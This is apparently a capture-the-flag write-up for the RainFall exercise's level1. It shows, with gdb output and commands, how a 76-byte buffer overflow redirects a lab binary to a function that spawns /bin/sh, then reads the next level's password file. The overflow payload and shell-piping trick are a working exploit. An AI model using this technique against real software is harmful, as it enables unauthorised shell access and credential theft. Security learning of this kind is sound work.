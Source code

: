 ## Flag1 README: Finding Flag1

We are now into `/home/user/level1`.

After listing all file, we can see there is `level1` into our directory.
We run it and it opens our standard input. We decided to try something like **coucou les amis**. Nothing..

We decided to take our all habits and dowload the file with: 

```bash
scp -P 4343 level1@localhost:/home/user/level1/level1 ~
```

And decompile it with our best friend: [Dogbolt](https://dogbolt.org/). In doing so, we realized there were buffer and a function called run where `/bin/sh` is called.

After doing some research, we find a plan. We need to do a `Buffer Overflow Attack` and rewrite into `eip` register to redirect ou programm execution to the function `run`.

Okay we have our attack plan but how we doing this.
First we need to find the size of our `stack`. In doing so, we will be able to know where to right the redirection code.
To find out, we used: 
```bash
gdb ./level1
(gdb) run <<< aA00aA01aA02aA03aA04aA05aA06aA07aA08aA09bA00bA01bA02bA03bA04bA05bA06bA07bA08bA09cA00cA01cA02cA03cA04cA05cA06cA07cA08cA09dA00dA01dA02dA03dA04dA05dA06dA07dA08dA09eA00eA01eA02eA03eA04eA05eA06eA07eA08eA09fA00fA01fA02fA03fA04fA05fA06fA07fA08fA09gA00gA01gA02gA03
Starting program: /home/user/level1/level1 <<< aA00aA01aA02aA03aA04aA05aA06aA07aA08aA09bA00bA01bA02bA03bA04bA05bA06bA07bA08bA09cA00cA01cA02cA03cA04cA05cA06cA07cA08cA09dA00dA01dA02dA03dA04dA05dA06dA07dA08dA09eA00eA01eA02eA03eA04eA05eA06eA07eA08eA09fA00fA01fA02fA03fA04fA05fA06fA07fA08fA09gA00gA01gA02gA03

Program received signal SIGSEGV, Segmentation fault.
0x39304162 in ?? ()
(gdb) i r
eax            0xbffff6f0	-1073744144
ecx            0xb7fd28c4	-1208145724
edx            0xbffff6f0	-1073744144
ebx            0xb7fd0ff4	-1208152076
esp            0xbffff740	0xbffff740
ebp            0x38304162	0x38304162
esi            0x0	0
edi            0x0	0
eip            0x39304162	0x39304162
eflags         0x210282	[ SF IF RF ID ]
cs             0x73	115
ss             0x7b	123
ds             0x7b	123
es             0x7b	123
fs             0x0	0
gs             0x33	51
```

So we can se that our `eip` value is `0x39304162` which is `90Ab`. Since our computer is in little endian the true value is `bA09`. Wich means our stack is **76** (80 - 4) bytes long. So now we need to find out where the function `run` is.

So we use gdb again:
```bash
(gdb) i func
All defined functions:

Non-debugging symbols:
0x080482f8  _init
0x08048340  gets
0x08048340  gets@plt
0x08048350  fwrite
0x08048350  fwrite@plt
0x08048360  system
0x08048360  system@plt
0x08048370  __gmon_start__
0x08048370  __gmon_start__@plt
0x08048380  __libc_start_main
0x08048380  __libc_start_main@plt
0x08048390  _start
0x080483c0  __do_global_dtors_aux
0x08048420  frame_dummy
0x08048444  run
0x08048480  main
0x080484a0  __libc_csu_init
0x08048510  __libc_csu_fini
0x08048512  __i686.get_pc_thunk.bx
0x08048520  __do_global_ctors_aux
```
We can se that `run` is in `0x08048444`.
Perfect, we have all our ingredients, now time to cook.

We create our perfect string with python: 
```sh
python -c "print('\x90'*76 + '\x44\x84\x04\x08')"
```
 - print : python function for print
 - \x90: is char for nop into stack
 - \x44\x84\x04\x08: address of run but in little endian

So let's try this:
```sh
level1@RainFall:~$ python -c "print('\x90'*76 + '\x44\x84\x04\x08')" | ./level1 Good... Wait what?
Segmentation fault (core dumped)
level1@RainFall:~$ 
```

Look like something happen but /bin/sh did not run why ..?

Well it did but python is putting a CTL-D at the end of his exec.
So we need to find a wait to send our string without EOF.

After some research, here is how we did it:
```sh
level1@RainFall:~$ python -c "print('\x90'*76 + '\x44\x84\x04\x08')" > payload
level1@RainFall:~$ cat payload - | ./level1 
Good... Wait what?
whoami
level2
```
Oh ! Okay now we just have to go into `/home/user/level2` and cat the `.pass` file